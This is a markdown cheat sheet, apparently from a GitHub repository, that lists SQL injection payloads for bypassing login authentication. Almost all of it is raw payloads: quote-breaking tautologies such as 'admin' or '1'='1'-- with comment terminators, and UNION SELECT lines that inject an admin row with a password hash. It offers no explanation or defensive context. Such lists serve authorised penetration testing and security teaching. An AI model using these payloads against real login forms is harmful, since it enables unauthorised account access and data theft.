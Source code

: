 # SQL Injection Authentication Bypass (Cheat Sheet)


![](/screenshot/02.png)


``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ```

``` admin' # ``` 

``` admin'/* ``` 

``` admin' or '1'='1 ``` 

``` admin' or '1'='1'-- ```

``` admin' or '1'='1'# ``` 

``` admin' or '1'='1'/* ``` 

``` admin'or 1=1 or ''=' ```

``` admin' or 1=1 ```

``` admin' or 1=1-- ```

``` admin' or 1=1# ```

``` admin' or 1=1/* ```

``` admin') or ('1'='1 ```

``` admin') or ('1'='1'-- ```

``` admin') or ('1'='1'# ```

``` admin') or ('1'='1'/* ```

``` admin') or '1'='1 ```

``` admin') or '1'='1'-- ```

``` admin') or '1'='1'# ```

``` admin') or '1'='1'/* ```

``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```

``` admin" -- ```

``` admin" # ```

``` admin"/* ```

``` admin" or "1"="1 ```

``` admin" or "1"="1"-- ```

``` admin" or "1"="1"# ```

``` admin" or "1"="1"/* ```

``` admin"or 1=1 or ""=" ```

``` admin" or 1=1 ```

``` admin" or 1=1-- ```

``` admin" or 1=1# ```

``` admin" or 1=1/* ```

``` admin") or ("1"="1 ```

``` admin") or ("1"="1"-- ```

``` admin") or ("1"="1"# ```

``` admin") or ("1"="1"/* ```

``` admin") or "1"="1 ```

``` admin") or "1"="1"-- ```

``` admin") or "1"="1"# ```

``` admin") or "1"="1"/* ```

``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
